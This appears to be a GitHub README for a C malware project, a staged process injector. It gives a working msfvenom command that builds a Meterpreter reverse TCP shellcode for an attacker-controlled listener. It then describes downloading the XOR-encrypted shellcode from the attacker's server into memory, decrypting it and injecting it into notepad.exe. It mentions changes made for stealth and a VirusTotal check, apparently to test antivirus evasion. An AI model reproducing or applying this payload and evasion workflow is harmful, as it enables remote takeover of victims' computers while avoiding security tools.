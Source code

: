 # Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

-Generatad payload with msfvenom
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

-Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to server

-The malware connects to the attacker's server and downloads the encrypted shellcode "enc_code.bin".

-The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

-It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

-Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

-The malware then injects the decrypted shellcode into the target process.


### EXECUTION

-I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)


### VirusTotal Analysis

![image](https://github.com/user-attachments/assets/dd34426d-d677-40fb-9864-1f6025d225e7)

